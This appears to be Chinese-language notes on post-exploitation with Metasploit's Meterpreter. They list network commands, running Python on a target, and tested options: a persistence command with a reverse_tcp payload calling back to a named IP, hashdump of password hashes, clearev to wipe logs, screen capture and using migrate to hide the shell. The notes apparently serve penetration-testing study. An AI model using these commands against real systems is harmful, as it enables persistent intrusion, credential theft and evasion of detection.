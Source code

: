 ##### 网络

网络相关命令。

| Command | Description |
| --- | --- |
| arp | 显示 ARP 缓存 |
| getproxy | 显示浏览器代理配置 |
| ifconfig(ipconfig) | 显示网卡信息 |
| netstat | 显示网络连接信息 |
| route | 显示或更改对方系统上的路由表 |

无需 Python 解释器在对方系统执行 Python 代码

先加载 Python 扩展。

```plaintext
meterpreter > load python 
```

通过下面命令执行语句。

```plaintext
python_execute print(1)   #执行 Python 语句
python_import -f path/filename.py   #导入模块并执行
python_reset #重新加载 Python 解释器
```

调用相关脚本获取信息 [https://www.offensive-security.com/metasploit-unleashed/existing-scripts/](https://www.offensive-security.com/metasploit-unleashed/existing-scripts/)

一些测试过的选项

-   ~run persistence -XU -P windows/x64/meterpreter/reverse\_tcp -i 5 -p 8084 -r 106.2.120.110，持久化 -U 用户登录时自动启动代理 -X 系统启动时自动启动代理 -P 指定运行的 Payload -p 端口 -r 主机 -i 每 5 秒重连一次。~官方已经废弃此模块替换为 `exploit/windows/local/persistence`
-   screenshare -d 0.0.1 -q 70，按帧对屏幕截图，获取 VNC 失败只能采用一帧一帧截图的方式上传图片。客户端操作太快会有延迟。
-   run screen\_unlock，屏幕解锁。Windows 10 不好使。
-   clearev，清除日志。在目标是 Windows 10 测试失败
-   run hashdump，导出用户密码 hash
-   reboot，重启目标机器

### auxiliary 信息收集 (未完成)

auxiliary 模块下要用那种模块，直接用 info 查看基本信息就知道是干嘛用的。

### msfvenom

用来生成 Payload

armitage 是 metasploit 的一个组件，工作界面为 GUI，功能与 msf 一致。

migrate 隐藏远程链接 shell
